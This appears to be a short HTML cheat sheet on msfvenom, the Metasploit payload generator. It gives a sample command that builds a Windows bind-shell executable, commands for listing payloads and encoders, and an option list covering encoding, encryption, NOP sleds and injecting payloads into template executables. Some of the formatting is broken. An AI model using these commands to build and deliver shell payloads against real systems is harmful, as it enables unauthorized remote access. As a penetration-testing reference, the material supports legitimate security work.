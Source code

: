 <h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and cobine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
show target payload options
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string<br>
        --smallest                   Generate the smallest possible payload using all available encoders<br>
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)<br>
        --encrypt-key     <value>    A key to be used for --encrypt<br>
        --encrypt-iv      <value>    An initialization vector for --encrypt<br>
	</p>
	<p>
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        --platform        <platform> The platform for --payload (use --list platforms to list)<br>
		</p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size >-c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
